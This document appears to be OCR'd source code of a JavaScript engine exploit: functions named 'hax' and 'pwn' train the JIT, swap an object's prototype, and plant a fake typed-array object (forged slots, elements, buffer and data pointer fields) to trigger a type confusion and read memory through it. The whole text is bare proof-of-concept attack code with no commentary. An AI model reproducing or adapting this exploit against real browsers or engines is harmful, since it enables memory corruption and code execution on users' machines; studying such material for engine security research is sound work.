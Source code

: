 
let ab = new ArrayBuffer(1024);

function hax(o, changeProto) {
    
    let x = new Uint8Array(1024);

    let y = {slots: 13.37, elements: 13.38, buffer: ab, length: 13.39, byteOffset: 13.40, data: 3.54484805889626e-310};

    if (changeProto) {
        o.p = x;

        
        o.__proto__ = {};
    }

    
    o.p = y;

    return o;
}

function pwn(o, trigger) {
    if (trigger) {
       
        return o.p[0];
    } else {
        return 42;
    }
}


for (let i = 0; i < 10000; i++) {
    hax({}, false);
}


for (let i = 0; i < 10000; i++) {
    evilObj = hax({}, true);

    
    eval('evilObj.p');
}


for (let i = 0; i < 100000; i++) {
    pwn(evilObj, false);
}


pwn(evilObj, true);


